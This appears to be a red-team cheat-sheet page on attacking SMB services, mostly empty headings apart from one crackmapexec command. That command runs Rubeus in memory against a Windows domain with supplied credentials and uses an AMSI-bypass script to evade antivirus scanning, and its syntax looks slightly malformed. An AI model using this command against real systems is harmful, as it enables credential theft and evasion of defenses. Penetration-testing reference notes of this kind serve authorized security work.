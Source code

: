 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# SMB (Ports 135-139, 445)
## References

## Overview

* Exploitation of Remote Services (TTPs not yet recorded below) - [`Exploitation of Remote Services` TTP](TTP/T1210_Exploitation_of_Remote_Services/T1210.md)

## Commands
### From a Linux Box

* <details><summary>crackmapexec - snovvcrash "dotnetassembly" fork [https://github.com/snovvcrash/CrackMapExec/tree/dotnetassembly](https://github.com/snovvcrash/CrackMapExec/tree/dotnetassembly)</summary><p>
	* References
		* [https://twitter.com/snovvcrash/status/1562160294658560000](https://twitter.com/snovvcrash/status/1562160294658560000)
	* Examples
		* Example 1: Rubeus, Password-based

				cme smb -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD cme smb --amsi-bypass amsi.ps1 --dotnetassembly --dotnetassembly-names 'Rubeus,Program,MainString' --dotnetassembly-arg-type string -x 'Rubeus.exe hash /user:DOMAIN_USER /domain:DOMAIN /password:PASSWORD'

### From a Windows Box
#### Locally

#### Remote

